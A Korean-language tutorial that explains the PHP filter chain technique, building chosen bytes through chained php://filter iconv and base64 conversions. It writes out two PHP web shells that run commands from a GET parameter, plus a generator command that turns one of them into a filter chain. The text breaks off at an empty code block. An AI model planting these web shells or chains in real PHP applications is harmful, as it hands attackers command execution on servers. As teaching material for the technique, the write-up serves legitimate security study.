 <br />
이와 같이 base64로 인코딩한 값에서 원하는 값을 획득하기 위해 다시 디코딩하여 쓰레기값을 제외한 원하는 문자만을 획득하려 한다.

하지만 base64로 인코딩한 값에 `=` 문자가 존재하는데 `convert.base64-decode` 필터는 `base64_decode` 함수와 `=` 문자 해석에 차이가 있어 원하는 값을 추출하지 못한다.
이에 `=` 문자를 제거하거나 필터에 영향이 가지 않도록 변환하는 `convert.iconv.UTF8.UTF7` 필터를 사용하여 에러가 발생하지 않도록 처리한다.
```php
<?php 
    echo file_get_contents(
    'php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|
        [문자 필터 체인 1]
        |convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|
        [문자 필터 체인 2]
        |convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode
        /resource=php://temp');
?>
```

PHP Filter Chain은 데이터가 필터를 거치며 처리되어, 역순으로 데이터가 처리된다. 따라서 `0`을 base64로 인코딩한 값이 `MA==`이므로, 순차적으로 `A`, `M`에 해당하는 필터를 작성해주면 된다.
```php
<?php
    echo file_get_contents(
    'php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|
        convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213
        |convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|
        convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T
        |convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp'
    );
?>
```
<br />

이제 스크립트를 사용해보자.
먼저 `<?= ... ;?>`인 `<?php echo ...; ?>`의 축약형(short echo tag)과 `shell_exec()` 함수와 동일한 역할을 하는 ``` `` ``` 연산자를 이용하여 웹셸을 작성한다.
```php
<?php system($_GET['cmd']); ?>
<?=`$_GET['cmd']`;?>
```

작성한 웹셸 코드에 해당하는 필터 체인을 생성해보았다.
```shell
attacker$ python php_filter_chain_generator.py --chain "<?=`$_GET['cmd']`;?>"
```
```php
```